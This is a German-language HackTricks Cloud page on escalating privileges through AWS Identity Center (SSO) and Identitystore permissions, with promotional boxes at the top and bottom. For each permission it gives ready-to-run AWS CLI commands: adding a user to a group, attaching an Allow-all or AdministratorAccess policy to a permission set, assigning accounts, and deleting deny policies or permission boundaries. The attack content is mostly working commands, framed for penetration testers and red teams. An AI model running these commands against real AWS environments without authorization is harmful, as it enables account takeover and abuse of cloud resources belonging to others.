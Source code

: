 # AWS - SSO & Identitystore Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## AWS Identity Center / AWS SSO

Für weitere Informationen zu AWS Identity Center / AWS SSO siehe:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beachten Sie, dass standardmäßig nur **Benutzer** mit Berechtigungen **aus dem** **Management Account** auf das IAM Identity Center zugreifen und es **kontrollieren können**.\
Benutzer aus anderen Konten können dies nur zulassen, wenn das Konto ein **Delegierter Administrator** ist.\
[Überprüfen Sie die Dokumentation für weitere Informationen.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Passwort zurücksetzen~~

Ein einfacher Weg, um Berechtigungen in Fällen wie diesem zu eskalieren, wäre eine Berechtigung zu haben, die es ermöglicht, Benutzerpasswörter zurückzusetzen. Leider ist es nur möglich, dem Benutzer eine E-Mail zum Zurücksetzen seines Passworts zu senden, daher benötigen Sie Zugriff auf die E-Mail des Benutzers.

### `identitystore:CreateGroupMembership`

Mit dieser Berechtigung ist es möglich, einen Benutzer in eine Gruppe zu setzen, damit er alle Berechtigungen erbt, die die Gruppe hat.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen für einen Berechtigungssatz gewähren, der einem Benutzer unter seiner Kontrolle gewährt wird.

{% hint style="warning" %}
Um diese Berechtigungen in diesem Fall auszunutzen, müssen Sie den **Namen einer kundenverwalteten Richtlinie kennen, die sich in ALLEN Konten** befindet, die betroffen sein werden.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

Ein Angreifer mit dieser Berechtigung könnte einem Benutzer unter seiner Kontrolle ein Berechtigungsset für ein Konto zuweisen.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gibt die STS-Kurzzeitberechtigungen für einen bestimmten Rollennamen zurück, der dem Benutzer zugewiesen ist.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Allerdings benötigen Sie einen Zugriffstoken, dessen Beschaffung mir nicht bekannt ist (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Verknüpfung zwischen einer AWS-Verwaltungspolitik und dem angegebenen Berechtigungssatz entfernen. Es ist möglich, weitere Berechtigungen durch das **Ablösen einer verwalteten Richtlinie (Ablehnungsrichtlinie)** zu gewähren.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Verknüpfung zwischen einer kundenverwalteten Richtlinie aus dem angegebenen Berechtigungssatz entfernen. Es ist möglich, mehr Privilegien zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann Aktionen ausführen, um die Berechtigungen aus einer Inline-Richtlinie aus dem Berechtigungssatz zu entfernen. Es ist möglich, **mehr Privilegien zu gewähren, indem eine Inline-Richtlinie (Deny-Richtlinie) entfernt wird**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungsgrenze aus dem Berechtigungssatz entfernen. Es ist möglich, **mehr Privilegien zu gewähren, indem die Einschränkungen auf dem Berechtigungssatz** entfernt werden, die durch die Berechtigungsgrenze festgelegt wurden.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>
